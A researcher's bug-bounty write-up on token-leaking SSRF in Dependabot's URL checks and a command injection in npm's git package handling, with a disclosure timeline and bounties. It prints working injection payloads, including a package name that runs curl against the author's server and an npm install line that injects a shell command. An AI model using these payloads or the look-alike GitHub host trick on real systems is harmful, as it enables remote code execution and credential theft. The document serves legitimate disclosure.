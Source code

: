 ```yaml
---
title: "Diving into Dependabot along with a bug in npm"
date: 2021-07-12T23:30:00+09:00
---
```


If you are developing some applications on GitHub, you might have seen pull requests from Depedabot.
It automatically finds outdated vulnerable packages and sends pull requests to fix that.

![](screenshot1.png)

It is enabled by default and can make a commit on `dependabot/*` branch of many repositories on GitHub.
Therefore, I thought If I could gain a controll of Dependabot, I can steal write permissions of those repositories.
So I started to look into Dependabot.

# SSRF in Dependabot

The core module of the Dependabot is open-sourced (<https://github.com/dependabot/dependabot-core>), so we can use Dependabot outside of GitHub.
To start the investigation, I prepared an local Dependabot environment following [the official sample code](https://github.com/dependabot/dependabot-script).

This sample code requires GitHub access token to fetch the source code of the repository.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-script/blob/4330ff7043b6fe2bb009005e2f5b0ca9985f32f2/update-script.rb?slice=16:23"></script>

My first idea is to deceiving a Dependabot so that the bot will sends the token to my server instead of GitHub.
This idea seems possible because there are flaws in URL validations.

One of the validations is to check whether the URL contains `github.com` or not.
Obviously, this validation accepts a URL such as `github.com.mocos.kitchen`.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/f5151ed385a267a13c6778dec5197af574f39d92/common/lib/dependabot/git_metadata_fetcher.rb?slice=7:8"></script>

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/f5151ed385a267a13c6778dec5197af574f39d92/common/lib/dependabot/git_metadata_fetcher.rb?slice=54:55"></script>

Another one uses following regexp which accepts a URL such as `git+https://github.com.mocos.kitchen/username/repo`.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/npm_and_yarn/lib/dependabot/npm_and_yarn/file_parser.rb?slice=27:37"></script>

Based on these tricks, Dependabot treats `git+https://github.com.mocos.kitchen/username/repo` as a valid GitHub's URL.

## Token stealing demo

To proof this concept, I created [a sample repository](https://github.com/tyage/dependabot-test-app) that includes following `package.json` file.

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test-app/blob/7f348994737bc39ab5ff443b6132f34c0c593328/package.json"></script>

Next, I updated the `credentials`, `repo_name` and `dependency_name` in [update-scripts.rb](https://github.com/dependabot/dependabot-script/blob/4330ff7043b6fe2bb009005e2f5b0ca9985f32f2/update-script.rb) from the official sample code so that we can run dependency checker against the sample repository I created.
When I run the script, my server - `github.com.mocos.kitchen` - received a request containing GitHub Access Token.

It means, if someone run a dependency checker against malicious repository, their GitHub Access Token will be stolen!

```
GET /username/repo.git/info/refs?service=git-upload-pack HTTP/1.0
Host: localhost:3000
Connection: close
User-Agent: dependabot-core/0.142.0 excon/0.79.0 ruby/2.6.6 (x86_64-darwin20) (+https://github.com/dependabot/dependabot-core)
Authorization: Basic eC1hY2Nlc3MtdG9rZW46Z2hw*************************************
Accept-Encoding: deflate, gzip
```

## First dive into a Dependabot server

Next, in order to try this attack in GitHub environment, I enabled Dependabot alerts in the sample repository.
We can do this by simply creating a `.github/dependabot.yml` file.

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test-app/blob/7f348994737bc39ab5ff443b6132f34c0c593328/.github/dependabot.yml"></script>

I successfully received a HTTP request from a Dependabot in GitHub.
But contrary to my expectation, there is no GitHub Access Token in the request.
Afterwards, it turns out that those servers are using special HTTP proxy which enalbes the bot to access target repository without GitHub Access Token.

```
GET /username/repo.git/info/refs?service=git-upload-pack HTTP/1.0
Host: localhost:3000
Connection: close
User-Agent: dependabot-core/0.156.4 excon/0.83.0 ruby/2.7.1 (x86_64-linux-gnu) (+https://github.com/dependabot/dependabot-core)
Accept-Encoding: gzip
```

I couldn't steal the token from GitHub's Dependabot server by SSRF, but after some investigation, I found another bug.

# Get the shell of a Dependabot server

When I tried some payload, I came across with a pattern that triggers a shell command in Dependabot server.
With the package name `https://github.com/tyage/;$(curl$IFS@mocos.kitchen:3001);?/...`, a shell command `curl$IFS@mocos.kitchen:3001` was executed and we could see the request!

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test3/blob/a81ac0bb60ac5aad66fa3191b5276f633a6d421d/package.json"></script>

I got the shell of the Dependabot server suddenly, but unfortunately, what we can do in the server is limited.
Here is what I could do:

- Access to the internal HTTP proxy which enables us to access to the target GitHub repository
- Access to the internal API server which enalbes us to create a pull request as a Dependabot
- Bitcoin mining :)

Therefore, we couldn't obtain read/write access of other user's repository.
(If we can pwn the internal HTTP proxy or API server, it will allow us to escalate the permission, I guess.)

Even though I couldn't get the access to other user's repository, I could impersonate as a verified Dependabot account and create a commit and pull request by calling internal API.

<https://github.com/tyage/dependabot-test3/pull/31>

![https://github.com/tyage/dependabot-test3/pull/31](screenshot2.png)

![https://github.com/tyage/dependabot-test3/pull/31](screenshot3.png)

## RCE in npm

By the way, what was happend to Dependabot when I changed the package name to `https://github.com/tyage/;$(curl$IFS@mocos.kitchen:3001);...`?
I found that the command was executed in `run_npm_7_top_level_updater` method.
In this method, the bot runs `npm install` command with `--ignore-scripts --package-lock-only` arguments so that it can see if the lock file is updated without running install scripts.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/npm_and_yarn/lib/dependabot/npm_and_yarn/file_updater/npm_lockfile_updater.rb?slice=182:193"></script>

Therefore, I thought Dependabot doesn't escape the arguments, but it does properly escapes all command arguments.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/common/lib/dependabot/shared_helpers.rb?slice=273:274"></script>

So I manually run `npm install` command to see what was happened and...

```
$ npm install 'git+https://github.com/tyage/sample-package;echo HELLO > a;' --ignore-scripts
npm ERR! code 127
npm ERR! command failed
npm ERR! command git ls-remote ssh://git@github.com/tyage/sample-package;echo HELLO > a; .git
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd HEAD
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/heads/main
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/tags/4.0.0
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/tags/5.0.0
npm ERR! zsh:1: command not found:  .git

npm ERR! A complete log of this run can be found in:
npm ERR!     /Users/tyage/.npm/_logs/2021-04-06T09_39_20_675Z-debug.log
$ cat a
HELLO
```

Yes, the bug is in npm!
Even if there is a `--ignore-scripts` option, we can execute a shell command injected in a package name!

When we call `npm install` command with `git+https://...` package name, `git ls-remote` command is triggered using `child_process.spawn` method.

<script src="https://gist-it.appspot.com/https://github.com/npm/cli/blob/dedb9c8f8b0891b30aa76e60cdb1c4f0f9b2f22f/node_modules/%40npmcli/promise-spawn/index.js?slice=35:36"></script>

Also, if `child_process.spawn` method is called with `shell` option, [the command will be run inside of the shell](https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options).

npm passes `opts` variable, which contains npm config, as an option argument.
It means `opts.shell` is same with [`shell` config](https://docs.npmjs.com/cli/v7/using-npm/config#shell) which default value is a `$SHELL` environment variable or `bash` on Posix

You can see your config of the npm with `npm config` command.

```
$ npm config get shell
/bin/zsh
```

Summarizing the above, npm calls `child_process.spawn` so that they can execute `git ls-remote 'git+https://....'`, but since they set the `shell` option, malicious shell command - starts from `;` or `$(` - in the package name is evaluated.

I reported this bug to the teams and [it was resolved in npm 7.10.0](https://github.com/npm/git/pull/29).
I asked if they issue CVE but they answered they will not.

But as you know, the action "installing a malicious npm package" itself is already dangerous, so this bug only affects to limited situations such as a dependency checker.

# Timeline

I reported SSRF to Dependabot and RCE to npm, and received bounties $617 and $7,500 respectively.

Interestingly, both of them are in the scope of [GitHub Bug Bounty Program](https://hackerone.com/github).

Report to Dependabot:

- **2021/03/31 08:50:30 UTC** Reported Dependabot issue
- **2021/04/23 09:54:22 UTC** Bounty Rewarded

Report to npm:

- **2021/04/06 10:23:49 UTC** Reported npm issue
- **2021/04/07 17:53:57 UTC** Issue triaged
- **2021/04/28 19:41:59 UTC** Issue patched
- **2021/05/04 14:42:21 UTC** Bounty Rewarded

